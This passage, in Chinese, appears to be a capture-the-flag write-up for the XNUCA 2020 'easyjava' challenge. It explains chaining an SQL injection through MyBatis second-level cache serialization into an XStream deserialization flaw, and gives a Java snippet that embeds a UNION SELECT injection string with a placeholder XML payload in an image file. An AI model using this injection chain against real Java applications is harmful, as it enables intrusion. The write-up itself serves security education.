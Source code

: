 ![image-20201102154259827](xnuca-2020-easyjava/image-20201102154259827.png)

到这里就比较清晰了，我们需要利用前面发现的SQL注入点，进行注入构造任意的xml数据

并利用mybatis的默认二级缓存使用serialization的原理（如下图官方文档所示），来触发xstream反序列化漏洞

![image-20201102155335403](xnuca-2020-easyjava/image-20201102155335403.png)

接下来，就根据题目的签名实现，来注入任意数据，以如下代码为例，生成存在注入语句的jpg文件

```
try{
    String payload = "evil xml";
    File file = new File("xxxx.jpg");
    File dest = new File("xxxx.jpg");
    InputStream inputStream = new FileInputStream(file);
    byte[] bytes = new byte[(int)file.length()];
    inputStream.read(bytes);
    InputStream destInputStream = new FileInputStream(dest);
    String secret="' union select 13,'wh1t3p1g','wh1t3p1g','"+payload+"','aed2bebb781ae32d94c5e67185e35149";
    String hash = "aed2bebb781ae32d94c5e67185e35149";
    ImageUtil.transferTo(inputStream, bytes, null, dest, secret, hash);
}catch (Exception e){
    e.printStackTrace();
}
```
